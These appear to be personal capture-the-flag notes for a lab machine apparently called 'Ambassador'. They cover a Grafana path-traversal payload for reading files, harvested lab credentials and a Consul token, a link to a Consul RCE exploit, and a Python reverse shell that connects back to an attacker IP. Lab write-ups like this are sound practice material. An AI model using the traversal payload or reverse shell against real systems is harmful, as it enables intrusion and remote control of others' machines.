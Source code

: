 `ambassador` account, DevOps should give you an account


grafana CVE

[database]
type = sqlite3
host = 127.0.0.1:3306
name = grafana
user = root

[security]
# default admin user, created on startup
admin_user = admin

# default admin password, can be changed before first start of grafana, or in profile settings
admin_password = admin

# used for signing
secret_key = SW2YcwTIb9zpOOhoPsMm

from `grafana.ini`

#[grafana credentials]
user: admin
pw: messageInABottle685427

lfi_endpoint={domain}/public/plugins/{vuln_payload}{path}
lfi_endpoint=http://ambassador.htb:3000/public/plugins/alertlist/../../../../../../etc/grafana/provisioning/datasources/mysql.yaml

#[database credentials]
grafana
dontStandSoCloseToMe63221!

SELECT `COLUMN_NAME` 
FROM `INFORMATION_SCHEMA`.`COLUMNS` 
WHERE `TABLE_SCHEMA`='yourdatabasename' 
    AND `TABLE_NAME`='user';
    
#[server credentials]
developer
anEnglishManInNewYork027468  ((YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==))


find /opt/my-app
find that it's a git repository

cp -R /opt/my-app /tmp/my-app
cd /tmp/my-app
git log
git checkout -o [to an older checkout]
find the consul http_token (bb03b43b-1d81-d62b-24b5-39540ee469b5)
exploit https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API [ completed]


LINPEAS didnt help much ..



#[rshell]
#!/bin/bash
export RHOST="10.10.14.52";export RPORT=8888;python3 -c 'import
sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"
))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'


